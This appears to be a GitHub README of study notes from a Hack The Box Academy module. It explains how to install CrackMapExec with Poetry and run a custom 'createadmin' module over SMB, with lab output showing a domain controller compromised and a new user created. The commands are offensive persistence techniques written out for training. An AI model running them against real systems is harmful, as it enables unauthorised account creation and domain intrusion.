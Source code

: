 # CMEmodule

**notes from HTB https://academy.hackthebox.com/module/84/section/817**

It is crucial to compile the CME project using Poetry (https://python-poetry.org/), which is recommended when building projects.

See this section for how to start using Poetry to run CrackMapExec - https://academy.hackthebox.com/module/84/section/797

Once CME has been installed with Poetry, copy the module's pythone file into the ./CrackMapExec/cme/modules folder.

The module can then be ran with or without options.

```shell
crackmapexec smb $IP -u $USER -p $PASS -M createadmin #Or whatever the module is called
```

For the example `createadmin.py`, it can be run by passing values to the user and password paramters

```shell
crackmapexec smb $IP -u $USER -p $PASS -M createadmin -o USER=htb PASS=Newpassword!
SMB         10.129.203.121  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         10.129.203.121  445    DC01             [+] inlanefreight.htb\julio:Password1 (Pwn3d!)
CREATEAD... 10.129.203.121  445    DC01             [*] Creating user with the following values: USER htb and PASS Newpassword!
CREATEAD... 10.129.203.121  445    DC01             [*] Executing command
CREATEAD... 10.129.203.121  445    DC01             The command completed successfully.

The command completed successfully.
```